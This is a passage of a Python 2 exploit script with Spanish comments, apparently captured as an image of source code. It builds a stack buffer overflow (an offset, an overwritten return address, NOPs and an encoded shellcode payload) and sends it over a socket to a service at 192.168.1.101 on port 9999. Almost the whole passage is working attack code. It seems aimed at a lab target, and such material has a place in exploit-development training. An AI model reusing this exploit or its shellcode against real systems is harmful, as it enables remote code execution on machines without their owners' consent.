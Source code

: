 ```yml
            > EXITFUNC=thread .......................>>> Utilidad para hacer nuestro exploit un "Hilo" asi el servicio al leerlo sigue su flujo y no peta
"""

# DEFINE AQUI TU PAYLOAD-SHELLCODE

payload = ("\xba\x34\x71\x6e\x1f\xdb\xd8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xda\x8d\x8c\xea\xde\x86\xd3"
"\x15\x1e\x57\xb4\x9c\xfb\x66\xf4\xfb\x88\xd9\xc4\x88\xdc\xd5"
"\xaf\xdd\xf4\x6e\xdd\xc9\xfb\xc7\x68\x2c\x32\xd7\xc1\x0c\x55"
"\x5b\x18\x41\xb5\x62\xd3\x94\xb4\xa3\x0e\x54\xe4\x7c\x44\xcb"
"\x18\x08\x10\xd0\x93\x42\xb4\x50\x40\x12\xb7\x71\xd7\x28\xee"
"\x51\xd6\xfd\x9a\xdb\xc0\xe2\xa7\x92\x7b\xd0\x5c\x25\xad\x28"
"\x9c\x8a\x90\x84\x6f\xd2\xd5\x23\x90\xa1\x2f\x50\x2d\xb2\xf4"
"\x2a\xe9\x37\xee\x8d\x7a\xef\xca\x2c\xae\x76\x99\x23\x1b\xfc"
"\xc5\x27\x9a\xd1\x7e\x53\x17\xd4\x50\xd5\x63\xf3\x74\xbd\x30"
"\x9a\x2d\x1b\x96\xa3\x2d\xc4\x47\x06\x26\xe9\x9c\x3b\x65\x66"
"\x50\x76\x95\x76\xfe\x01\xe6\x44\xa1\xb9\x60\xe5\x2a\x64\x77"
"\x0a\x01\xd0\xe7\xf5\xaa\x21\x2e\x32\xfe\x71\x58\x93\x7f\x1a"
"\x98\x1c\xaa\x8d\xc8\xb2\x05\x6e\xb8\x72\xf6\x06\xd2\x7c\x29"
"\x36\xdd\x56\x42\xdd\x24\x31\xad\x8a\x27\x8c\x45\xc9\x27\x0f"
"\x2d\x44\xc1\x65\x41\x01\x5a\x12\xf8\x08\x10\x83\x05\x87\x5d"
"\x83\x8e\x24\xa2\x4a\x67\x40\xb0\x3b\x87\x1f\xea\xea\x98\xb5"
"\x82\x71\x0a\x52\x52\xff\x37\xcd\x05\xa8\x86\x04\xc3\x44\xb0"
"\xbe\xf1\x94\x24\xf8\xb1\x42\x95\x07\x38\x06\xa1\x23\x2a\xde"
"\x2a\x68\x1e\x8e\x7c\x26\xc8\x68\xd7\x88\xa2\x22\x84\x42\x22"
"\xb2\xe6\x54\x34\xbb\x22\x23\xd8\x0a\x9b\x72\xe7\xa3\x4b\x73"
"\x90\xd9\xeb\x7c\x4b\x5a\x0b\x9f\x59\x97\xa4\x06\x08\x1a\xa9"
"\xb8\xe7\x59\xd4\x3a\x0d\x22\x23\x22\x64\x27\x6f\xe4\x95\x55"
"\xe0\x81\x99\xca\x01\x80")

junk_ESP = payload

# ESCRIBIMOS EL VALOR DEL EIP EN HEXADECIMAL ALREVES
buffer = offset + "\xf3\x12\x17\x31" + NOPs + junk_ESP

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect(("192.168.1.101",9999))
    s.recv(1024)

    print "[*] Sending buffer"
    s.send(buffer + '\r\n')
    s.close()

except:
    print '[*] Conexion perdida'
    sys.exit()
```